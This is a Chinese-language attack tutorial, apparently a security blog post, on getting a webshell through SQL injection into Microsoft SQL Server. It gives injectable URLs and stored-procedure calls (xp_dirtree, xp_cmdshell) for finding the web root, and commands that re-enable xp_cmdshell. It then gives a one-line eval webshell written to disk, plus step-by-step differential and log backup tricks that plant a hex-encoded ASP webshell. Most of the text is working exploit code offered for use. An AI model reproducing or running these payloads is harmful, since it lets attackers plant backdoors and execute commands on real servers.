


# 0x00 简介

备份拿shell也就涉及到了权限的问题，SA权限不用说没有降权的话基本能做任何事情了，它数据库权限是`db_owner`，当然其他用户如果也拥有 `db_owner` 基本也可以通过备份拿下shell，但是在设置目录权限后就不行了。


# 0x01 路径的寻找

需要路径的我们一般有几个思路：

1. 报错寻找 

2. 字典猜

3. 旁站信息收集

4. 调用储存过程来搜索

6. 读配置文件


这里我们着重讨论一下储存过程也就是这些函数来找我们的网站根目录 一般我们可以用xp_cmdshell xp_dirtree 

`xp_dirtree` `xp_subdirs`

```
execute master..xp_dirtree 'c:' //列出所有c:\文件和目录,子目录 
execute master..xp_dirtree 'c:',1 //只列c:\文件夹 
execute master..xp_dirtree 'c:',1,1 //列c:\文件夹加文件 

```

那么我们怎么利用呢，执行xp_dirtree返回我们传入的参数如果你想吧文件名一起返回来，因为没有回显所以可以这样创建一个临时的表插入

```
http://192.168.130.137/1.aspx?id=1;CREATE TABLE tmp (dir varchar(8000),num int,num1 int);

http://192.168.130.137/1.aspx?id=1;insert into tmp(dir,num,num1) execute master..xp_dirtree 'c:',1,1

```




`xp_cmdshell`

这个xp_cmdshell 找起来更加方便我们调用cmd的命令去搜索，比如我的web目录有个1.aspx  

```

C:\Users\Aleen>for /r c:\ %i in (1*.aspx) do @echo %i
c:\Users\Aleen\AppData\Local\Microsoft\Windows\Temporary Internet Files\Content.
IE5\8KB2ZI22\1[1].aspx
c:\www\1.aspx

```

所以我只需要建立一个表 存在一个char字段就可以了

```
http://192.168.130.137/1.aspx?id=1;CREATE TABLE cmdtmp (dir varchar(8000));

http://192.168.130.137/1.aspx?id=1;insert into cmdtmp(dir) exec master..xp_cmdshell 'for /r c:\ %i in (1*.aspx) do @echo %i'


```




当然你可能遇到xp_cmdshell不能调用 如果报错

>SQL Server 阻止了对组件 'xp_cmdshell' 的 过程'sys.xp_cmdshell' 的访问，因为此组件已作为此服务器安全配置的一部分而被关闭。系统管理员可以通过使用 sp_configure 启用。

可以用如下命令恢复

```
;EXEC sp_configure 'show advanced options',1;//允许修改高级参数
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;  //打开xp_cmdshell扩展
RECONFIGURE;--

```

当然还不行可能xplog70.dll需要恢复，看具体情况来解决吧 ，这些问题百度一堆一堆的。

其他的可以利用的储存过程还有sp_oamethod什么的不是本文讨论的重点了，因为2008的xp_cmdshell 权限不是2005那样的system 所以不考虑加账号

`xp_regread`

通过读注册表 这个在win2000才有用 就不多说了

```
exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\ControlSet001\Services\W3SVC\Parameters\Virtual Roots','/'

```

# 0x02 xp_cmdshell拿shell

虽然是备份拿shell顺便提下，我们找到目录了权限能调用xp_cmdshell来写那样就很轻松了也就不需要备份了。

```
http://192.168.130.137/1.aspx?id=1;exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> > c:\\WWW\\404.aspx' ;

```

由于cmd写webshell的主意这些转义的问题 当然条件允许也可以使用certutil或者vbs什么的来下载


# 0x03 差异备份

能通过xp_cmdshell拿下webshell的情况现在也不算多了，备份拿shell还算常见 具体步骤搞过的朋友都知道。

```
1. backup database 库名 to disk = 'c:\bak.bak';--

2. create table [dbo].[test] ([cmd] [image]);

3. insert into test(cmd) values(0x3C25657865637574652872657175657374282261222929253E)

4. backup database 库名 to disk='C:\d.asp' WITH DIFFERENTIAL,FORMAT;--

```


差异备份我们有多种情况可能不成功，一般就是目录权限的问题，第一次备份的目录是否可能没有权限，第二次备份到网站目录是否有权限，所以一般不要直接备份到c盘根目录


当过滤了特殊的字符比如单引号，或者 路径符号 都可以使用前面提到的 定义局部变量来执行。


# 0x04 LOG备份

LOG备份的要求是他的数据库备份过，而且选择恢复模式得是完整模式，至少在2008上是这样的，但是使用log备份文件会小的多，当然如果你的权限够高可以设置他的恢复模式

```
alter database 库名 set RECOVERY FULL

```

```
1. alter database 库名 set RECOVERY FULL 

2. create table cmd (a image) 

3. backup log 库名 to disk = 'c:\xxx' with init 

4. insert into cmd (a) values (0x3C25657865637574652872657175657374282261222929253E) 

5. backup log 库名 to disk = 'c:\xxx\2.asp'

```

相对于差异备份，log备份的好处就是备份出来的webshell的文件大小非常的小我数据库没啥东西，前面备份出来2000k这个只有83k。


# 0x05 文末

#### 本文如有错误，请及时提醒，避免误导他人


BY 404